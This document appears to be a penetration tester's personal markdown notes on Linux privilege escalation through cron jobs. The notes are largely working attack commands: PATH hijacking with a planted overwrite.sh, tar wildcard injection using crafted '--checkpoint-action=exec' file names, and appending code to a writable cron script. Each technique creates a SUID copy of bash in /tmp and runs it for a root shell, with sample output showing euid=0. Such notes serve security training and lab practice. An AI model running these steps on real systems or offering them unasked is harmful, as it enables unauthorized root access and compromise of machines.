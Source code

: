 #### Cron Jobs

The first five fields at the beginning of the cron job entry are used to specify the scheduled time. These fields are used to specify the following values:

Minute (0 – 59): Used to specify the minute the cron job should be run.
Hour (0 – 23): Used to specify the hour of the day the cron job should be run.
Day of the month (1 – 31): Used to specify the specific day of the month the cron job should be run.
Month (1 – 12): Used to specify the month when the cron job should be run.
Day of the week (0 – 7): Used to specify the day of the week when the cron job should be run.

```bash - kali
ls -lah /etc/cron*
```

Find and cat out **any** files.

```bash - kali
grep "CRON" /var/log/cron.log
```

```bash - kali
cat /etc/crontab 
```

Look at ==WHO IS RUNNING== the task, not who owns it!

![[1._Reverse Shells (LIN)#Python file root execute]]

Also check:
```bash - kali
systemctl list-timers --all
```


#### Path Environment Variable

The crontab PATH environment variable is by default set to /usr/bin:/bin

The PATH variable can be overwritten in the crontab file.

If a cron job program/script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cron job.

1. View the contents of the system-wide crontab:

```bash - kali
cat /etc/crontab
```

>PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```* * * * * root overwrite.sh```
```* * * * * root /usr/local/bin/compress.sh```

Note that the /home/user directory (which we can write to) is at the start of the PATH variable, and the first cron job does not use an absolute path.

2. Create the file overwrite.sh in /home/user with the following contents:

==overwrite.sh==

---
```bash
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```
---

3. Ensure that overwrite.sh is executable:

```bash
chmod +x /home/user/overwrite.sh
```

4. Wait for the cronjob to run (this job in particular runs every minute).

Once the /tmp/rootbash file is created, execute it (with -p to preserve the effective UID) to gain a root shell:

```bash
/tmp/rootbash –p
```

```bash
id
```

uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root)

#### File nonexistant
Notice the path that is listed, how it starts with /home/user.  Let's check there to see if the file "overwrite.sh" exists:

```bash - kali
ls -lah /home/user
```

It does not, so we can create the file to give us root.

```bash - kali
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
```

```bash - kali
chmod +x /home/user/overwrite.sh
```

The cron job runs every minute, so just wait until we see bash in /tmp directory, then run:

```bash - kali
/tmp/bash -p
```

#### Wildcards
```bash - kali
cat /etc/crontab 
```

In this example, we look at /usr/local/bin/compress.sh

```bash - kali
cat /usr/local/bin/compress.sh
```

We can take advantage of the wildcard character as seen above.  We'll create a malicious file called "runme.sh"

```bash - kali
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
```

```bash - kali
chmod +x runme.sh
```

```bash - kali
touch /home/user/--checkpoint=1
```

```bash - kali
touch /home/user/--checkpoint-action=exec=sh\runme.sh
```

```bash - kali
/tmp/bash -p
```

#### Append malicious code

We run ``'locate overwrite.sh'`` to find the location of the file, or, using the PATH, we begin hunting down the overwrite.sh file.  First we look in /home/user, not there, then /usr/local/sbin, not there, then finally we find it in /usr/local/bin.

```bash - kali
ls -lah /usr/local/bin/overwrite.sh
```

We see we do have write privileges to the file.  Let's take a peek at what the file does.

```bash - kali
cat /usr/local/bin/overwrite.sh
```

Now, we will append on our malicious code the file:

```bash - kali
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
```

```bash - kali
/tmp/bash -p
```
